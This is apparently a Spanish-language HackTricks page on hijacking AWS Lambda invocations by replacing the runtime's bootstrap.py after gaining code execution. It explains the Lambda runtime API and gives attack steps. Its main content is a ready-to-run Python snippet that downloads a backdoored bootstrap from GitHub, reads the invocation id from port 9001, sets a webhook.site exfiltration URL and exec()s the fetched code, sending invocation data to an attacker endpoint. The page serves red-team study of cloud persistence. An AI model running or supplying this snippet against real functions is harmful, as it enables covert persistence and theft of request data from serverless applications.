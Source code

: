 # AWS - Robar Solicitudes de Lambda

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Flujo de Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** es un proceso fuera del contenedor que **envía** **invocaciones** al proceso **init**.
2. El proceso init escucha en el puerto **9001** exponiendo algunos endpoints interesantes:
* **`/2018-06-01/runtime/invocation/next`** – obtener el próximo evento de invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – devolver la respuesta del controlador para la invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – devolver un error de ejecución
3. **bootstrap.py** tiene un bucle que recibe invocaciones del proceso init y llama al código de los usuarios para manejarlas (**`/next`**).
4. Finalmente, **bootstrap.py** envía al init la **respuesta**

Ten en cuenta que bootstrap carga el código de usuario como un módulo, por lo que cualquier ejecución de código realizada por el código de los usuarios en realidad está ocurriendo en este proceso.

## Robar Solicitudes de Lambda

El objetivo de este ataque es hacer que el código de los usuarios ejecute un proceso malicioso **`bootstrap.py`** dentro del proceso **`bootstrap.py`** que maneje la solicitud vulnerable. De esta manera, el proceso **bootstrap malicioso** comenzará a **comunicarse con el proceso init** para manejar las solicitudes mientras el **bootstrap legítimo** está **atrapado** ejecutando el malicioso, por lo que no solicitará más solicitudes al proceso init.&#x20;

Esta es una tarea sencilla de lograr, ya que el código del usuario se está ejecutando por el legítimo **`bootstrap.py`** proceso. Por lo tanto, el atacante podría:

* **Enviar un resultado falso de la invocación actual al proceso init**, para que init piense que el proceso bootstrap está esperando más invocaciones.
* Se debe enviar una solicitud a **`/${invoke-id}/response`**&#x20;
* El invoke-id se puede obtener de la pila del legítimo **`bootstrap.py`** proceso utilizando el módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como se [propone aquí](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o simplemente solicitándolo nuevamente a **`/2018-06-01/runtime/invocation/next`** (como se [propone aquí](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Ejecutar un **`bootstrap.py`** malicioso que manejará las próximas invocaciones
* Con fines de sigilo, es posible enviar los parámetros de las invocaciones de lambda a un C2 controlado por los atacantes y luego manejar las solicitudes como de costumbre.
* Para este ataque, es suficiente obtener el código original de **`bootstrap.py`** del sistema o de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), agregar el código malicioso y ejecutarlo desde la invocación actual de lambda.

### Pasos del Ataque

1. Encuentra una vulnerabilidad de **RCE**.
2. Genera un **bootstrap** **malicioso** (por ejemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Ejecuta** el bootstrap malicioso.

Puedes realizar fácilmente estas acciones ejecutando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para obtener más información, visita [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referencias

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

